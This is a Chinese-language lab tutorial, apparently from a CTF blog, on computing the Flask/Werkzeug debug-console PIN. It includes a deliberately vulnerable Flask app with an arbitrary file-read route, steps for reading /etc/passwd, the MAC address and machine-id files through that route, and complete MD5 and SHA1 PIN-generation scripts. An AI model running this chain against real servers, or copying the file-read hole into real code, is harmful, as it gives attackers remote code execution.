 ```yaml
---
title: flaskPIN计算
date: 2024-10-15 18:44:19
permalink: /pages/5d54f1/
sidebar: false
author: 
  name: Cola
  link: https://the0n3.top
---
```


## 环境问题

::: danger 注意
注意：高版本flask似乎已经不允许非本地用户访问`console`控制台了，需要使用低版本环境，具体搭建参考[上篇文章](/pages/883507/)
:::

写一个简单的flask应用，起一个docker服务

```python
from flask import Flask,request

app = Flask(__name__)


@app.route('/')
def hello_world():
    return 'At /read,you can read what you want by url?filename='

@app.route('/read',methods=['GET','POST'])
def read_file():
    filename = request.args.get('filename')
    if filename:
        with open(filename, 'r') as f:
            data = f.read()
    return data

if __name__ == '__main__':
    app.run(debug=True,host='0.0.0.0',port='8080')
```

查看容器日志

```plaintext
└─$ docker logs 2886                                                    
flaskPIN{Cra2y4viv050}
 * Serving Flask app "app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 256-147-392
```

服务正常运行

![1](https://the0n3.top/medias/flask-PIN/1.png)

控制台也可以正常访问

![2](https://the0n3.top/medias/flask-PIN/2.png)

::: warning
Flask 的 PIN 码计算仅与 werkzeug 的 debug 模块有关。与 Python 版本无关，werkzeug 低版本使用 MD5，高版本使用 SHA1，现在绝大多数都是高版本的利用
:::

## 利用

需要一些主机、容器的信息，才能使用脚本生成PIN码

### probably_public_bits

这里需要四个变量值

```plaintext
- username   # 通过/etc/passwd这个文件去猜
- modname    # getattr(app, "module", t.cast(object, app).class.module)获取，不同版本的获取方式不同，但默认值都是flask.app
- appname    # 通过getattr(app, 'name', app.class.name)获取，默认值为Flask
- moddir     # flask所在的路径，通过getattr(mod, 'file', None)获得，题目中一般通过查看debug报错信息获得
```

在这里，我们一般只需要读取`/etc/passwd`文件，确定`username`，然后通过debug报错信息获得`moddir`

对于`modname`和`appname`，一般都是默认值`flask.app`和`Flask`

关于注释后面的getattr()函数获取一些信息的内容，出题人可能会用到，每个容器都是随机生成的，简单的题目出题要给你PIN码时，会通过这个函数来计算，我们不需要关注

### private_bits

这里需要两个变量值

```plaintext
- uuid           # 读取/sys/class/net/eth0/address
- machine-id     # 多个配置文件内容拼接
```

对于`uuid`：

uuid：
网卡的mac地址的十进制，可以通过代码uuid.getnode()获得，也可以通过获得，一般获取的是一串十六进制数，将其中的横杠去掉然后转十进制就行。
例：00:16:3e:03:8f:39 => 95529701177
也可以直接跑print(int("00:16:3e:03:8f:39".replace(":",""),16))

对于`machine-id`：
machine-id：
machine-id是通过**三个文件**里面的内容经过处理后拼接起来

```plaintext
1. /etc/machine-id（一般仅非docker机有，截取全文）
2. /proc/sys/kernel/random/boot_id（一般仅非docker机有，截取全文）
3. /proc/self/cgroup（一般仅docker有，**仅截取最后一个斜杠后面的内容**）
```

例如：11:perf_event:/docker/docker-2f27f61d1db036c6ac46a9c6a8f10348ad2c43abfa97ffd979fbb1629adfa4c8.scope

则只截取docker-2f27f61d1db036c6ac46a9c6a8f10348ad2c43abfa97ffd979fbb1629adfa4c8.scope拼接到后面
文件12按顺序读，**12只要读到一个**就可以了，1读到了，就不用读2了。
文件3如果存在的话就截取，不存在的话就不用管
最后machine-id=（文件1或文件2）+文件3（存在的话）


拿到这些值，往下计算PIN码

## 计算PIN码

- 低版本（werkzeug1.0.x）

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'root'  # username，通过/etc/passwd
    'flask.app',  # modname，默认值
    'Flask',  # 默认值
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # moddir，通过报错获得
]
# 填入获取的16进制即可，后面添加了转换功能
address = '02:42:ac:11:00:02'
address = int(address.replace(':', ''),16)
private_bits = [
    f'{address}',  # mac十进制值 /sys/class/net/eth0/address
    '42b783da-44c9-495c-9c4c-eae7e021b389'  # 看上面machine-id部分
]

# 下面为源码里面抄的，不需要修改
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
        else:
            rv = num

print(rv)
```

- 高版本（werkzeug>=2.0.x）

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'root'  # username，通过/etc/passwd
    'flask.app',  # modname，默认值
    'Flask',  # 默认值
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # moddir，通过报错获得
]
# 填入获取的16进制即可，后面添加了转换功能
address = '02:42:ac:11:00:02'
address = int(address.replace(':', ''),16)
private_bits = [
    f'{address}',  # mac十进制值 /sys/class/net/eth0/address
    '42b783da-44c9-495c-9c4c-eae7e021b389'  # 看上面machine-id部分
]

# 下面为源码里面抄的，不需要修改
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

测试后，用第一个跑出来是正确的

![3](https://the0n3.top/medias/flask-PIN/3.png)

参考：
- [Flask调试模式PIN值计算和利用](https://blog.hz2016.com/2023/07/flask%E8%B0%83%E8%AF%95%E6%A8%A1%E5%BC%8Fpin%E5%80%BC%E8%AE%A1%E7%AE%97%E5%92%8C%E5%88%A9%E7%94%A8/)